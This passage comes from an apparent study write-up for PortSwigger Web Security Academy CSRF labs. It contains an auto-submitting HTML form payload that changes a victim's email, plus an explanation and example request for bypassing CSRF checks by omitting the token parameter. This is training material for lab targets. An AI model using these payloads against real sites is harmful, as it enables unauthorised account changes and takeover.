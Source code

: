 CSRF token is no longer verified for `GET` requests. Open the __Context Menu__ again and select "Copy URL". Place this URL in the following HTML template inside the `<form>` tag's `action` attribute's value:

> NOTE: If the copied URL has any query parameters (like `?email=email@email.com&csrf=asdasdh`) remove them before clicking "Store". Also, for me encoding `anything%40web-security-academt.net` didn't work, so I replaced it with `@` symbol in the HTML instead and succeeded.

```
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

From the top bar of the lab web page, click "Go to exploit server" and paste the resulting HTML into the "Body" section of the form, then click "Store".

Click "View exploit" to check if the exploit works by trying it on yourself. Check the resulting HTTP request and response in __Proxy__ > __History__. And also notice the changed email on `/my-account?id=wiener` page you were redirected to. 

```
Your email is: anything@web-security-academy.net
```

Go back to the exploit server and change the email value in the HTML body to anything but the above. Click "Store" and then "Deliver to victim" to solve the lab.

> NOTE: Check out [walkthrough](csrf_lab02_zaproxy.md) of this lab in OWASP Zed Attack Proxy

### Validation of CSRF token depends on token being present

Some applicaiton correctly validate the CSRF token if it is presend, but skip the validation entirely if it is omitted.

In these cases, an attacker can remove the parameter that stores a CSRF token as its value entirely (not just the value) and bypass the validation to deliver a CSRF attack.

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

### Lab: CSRF where token validation depends on token being present

Open Burp's browser, navigate to the lab and log in with credentials `wiener:peter`. 

Submit "Update email" form and find the request in __Proxy__ > __History__ section. 
